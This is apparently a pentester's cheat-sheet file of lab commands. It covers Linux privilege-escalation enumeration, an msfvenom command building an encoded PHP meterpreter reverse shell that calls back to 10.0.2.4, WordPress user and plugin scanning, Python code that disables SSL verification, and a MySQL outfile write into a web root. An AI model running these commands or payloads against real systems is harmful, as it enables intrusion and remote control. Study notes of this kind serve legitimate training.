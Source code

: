 #Privilege Escalation
	1. uname -a
	2. cat /etc/*release*
	3. cat /etc/lsb-release

#Bind Shells


#Reverse Shells

#Reverse Shells using metasploit

  	1. msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.4 LPORT=1337 -e php/base64 > shell.php
     		 append <?php ?> in the shell.php file

#Wordpress Scanning
	1. wpscan --url https://10.0.2.9:12038/blogblog --enumerate uvp
    		u : enumerate usernames 
    		vp : vulnerable plugins
    
#Changing a python urllib2.urlopen method to work with ssl

	1. 
		import ssl 
		ctx = ssl.create_default_context()
		ctx.check_hostname = False
		ctx.verify_mode = ssl.CERT_NONE

		urllib2.urlopen(----- , context = ctx)

#After getting access to mysql command line remotely

	1. Creating a file onto the remote server
		mysql> select "baba" into outfile "/var/www/html/somepath/wp-content/uploads/test.txt";
    
